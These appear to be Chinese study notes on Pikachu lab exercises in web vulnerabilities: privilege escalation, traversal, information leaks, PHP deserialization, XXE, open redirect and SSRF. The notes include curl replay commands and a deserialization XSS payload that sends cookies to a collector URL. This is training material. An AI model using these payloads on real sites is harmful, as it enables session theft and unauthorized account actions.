- 使用合理（严格）的权限校验规则
- 使用后台登录态作为权限判断条件，尽量避免使用前端传入条件
水平越权
lucy用户登入，查看信息，发现URL里有个username参数指定了是lucy
改成lili，就以用户lucy越权看到了lili的信息
就是说，前面的登入是多余的，是失效鉴权
垂直越权
两个用户，pikachu就是个宝可梦，而admin是超级用户
pikachu只能看，而admin还能增删用户
靶场这里比较不方便，不管什么用户都只用一个PHPSESSID标识浏览器所以kali里面只有一个浏览器的话，不太好测试越权但是可以使用curl命令
我是傻逼
先在浏览器上分别登入两个用户，并各自执行特殊操作
抓包看看请求接口和发送的数据
猜测一些管理员接口没有做鉴权
于是把管理员添加用户的数据包放到repeater
然后退出admin，登入pikachu，获得pikachu的登录态
然后把那个数据包的PHPSESSID换成pikachu的
重放，就相当于以pikachu执行admin的操作
结果成功，即存在垂直越权
下面是一些curl的命令（虽然是犯傻，但也顺便学习一遍）
登入：curl http://www.pikachu.com/vul/overpermission/op2/op2_login.php -L -b "PHPSESSID=gns88d3jopdfi4reg0t1lesag1" -d "username=pikachu&password=000000&submit=Login" | sed -n '/<div class="main-content/,/<div class="footer/p'
执行admin操作：curl http://www.pikachu.com/vul/overpermission/op2/op2_admin_edit.php -L -b "PHPSESSID=gns88d3jopdfi4reg0t1lesag1" -d "username=Archeri&password=password&sex=111&phonenum=111&email=111&address=111&submit=%E5%88%9B%E5%BB%BA" | sed -n '/<div class="main-content/,/<div class="footer/p'
../../
概述
差不多也是请求文件的变量被用户控制并没有严格限制
导致目录遍历
和敏感信息泄露的区别：
通过不带参数的URL（比如：http://XXX/doc）导出了doc文件夹里的内容，这叫敏感信息泄露
带参数，且能够用../../，一般叫目录遍历
练习
两个链接，点击之后下面出现对应文本
其中URL里有个值得注意的参数：?title=truman.php
这里就是漏洞点，和文件包含差不多
敏感信息泄露
概述
一些常见场景
- 通过访问URL下的目录，可以直接列出目录下的文件列表
- 输入错误的URL参数后报错信息里面包含操作系统、中间件、开发语言的版本或其他信息
- 前端的源码（HTML、CSS、JS）里面包含了敏感信息，比如后台登录地址、内网接口信息、甚至账号密码等
I can see your ABC
HTML源码里面，有一段注释暴露了测试账号：lili/123456
还有一个逻辑错误，记下登陆后的URL，退出登录后可以无授权访问
PHP反序列化
概述
PHP的两个函数
**serialize()**：把对象变成可传输的字符串
1 | class S { |
序列化后的结果：O:1:"S":1:{s:4:"test";s:7:"pikachu";}
O：表示Object
1：表示对象名字长度为一个字符
“S”：对象名称
1：对象里有一个变量
s：数据类型（字符串）
4：变量名称长度
“test”：变量名称
s：数据类型
7：变量值长度
“pikachu”：变量值
**unserialize()**：将被序列化为字符串的对象还原
1 | $u = unserialize("O:1:"S":1:{s:4:"test";s:7:"pikachu";}"); |
如果反序列化内容能被用户控制
且后台不正当使用PHP中的魔法函数
则可能有安全问题
一些常见的相关魔法函数：
__construct()：对象创建时调用
__destruct()：对象销毁时调用
__toString()：对象被当作字符串时调用
__sleep()：对象被序列化前运行
__wakeup()：对象序列化之后立即调用
一个漏洞例子：
1 | class S{ |
payload：O:1:"S":1:{s:4:"test";s:29:"<script>alert('xss')</script>";}
大概就是传入恶意字符串，反序列化之后执行echo达成XSS的意思
练习
后端相关源码：
1 | class S{ |
估计反序列化漏洞，一般都是白盒测试代码审计出来的吧
根据上面的源码，知道对象S会在创建时echo自己的变量
但其实这个不重要
重要的是下面的代码，会尝试反序列化后，把$html的内容echo出来
所以就有一个很普通的XSS
所以最基本的弹窗payload：O:1:"S":1:{s:4:"test";s:29:"<script>alert('xss')</script>";}
后面修改变量的长度和字符串值，就可以达成其他目的
例如收集cookie：O:1:"S":1:{s:4:"test";s:109:"<script>document.location="http://www.pikachu.com/pkxss/xcookie/cookie.php?cookie="+document.cookie;</script>";}
XXE
概述
XML外部实体注入，又来啦
通过向服务器注入指定的XML实体内容
让服务器按照指定的配置进行执行，从而导致问题
现在很多语言里面对应的解析XML的函数默认是禁止解析外部实体内容的
从而也就直接避免了这个漏洞
以PHP为例
在PHP里面解析XML用的是libxml
其在≥2.9.0的版本中默认是禁止解析XML外部实体内容的。
靶场手动指定LIBXML_NOENT选项开启了XML外部实体解析
总之很可能出现在接收和解析XML数据的地方
练习
本地复现8太行，按照提示URL编码也不行
可能是环境配置的问题，下面是payload
1 | <?xml version="1.0" encoding="UTF-8"?> |
不安全的URL重定向
概述
可能发生在一切执行了URL跳转的地方
主要是后端对前端传过来的参数没有加以判断就去跳转
一个直接危害：钓鱼
即攻击者使用漏洞方的域名做掩盖，从而跳转到钓鱼网站
练习
四个点击项，其中后面两个发出的请求有个参数url
看样子是页面会根据这个参数的值进行跳转
那可能有这个payload：http://www.pikachu.com/vul/urlredirect/urlredirect.php?url=http://www.baidu.com
就是利用pikachu的域名钓到百度去的意思？
SSRF
概述
主要原因：
服务端提供了从其他服务器应用获取数据的功能
但又没有对目标地址做严格过滤与限制
导致攻击者可以传入任意地址来让后端对其发起请求
并返回该目标地址请求的数据
PHP中的常见相关函数（利用方法和影响不同）：
- file_get_contents()
- fsockopen()
- curl_exec()
curl
看样子估计是会使用curl对参数url中的网址进行请求
估计利用点就是，请求攻击者服务器上的恶意脚本
在受害者服务器上运行
或者可以探测内网：http://10.10.10.2:3306
file_get_content
估计就是通过file参数获取服务器上的敏感信息
好像也可以起到和curl类似的效果
总结
很简陋的靶场
提示和没提示一样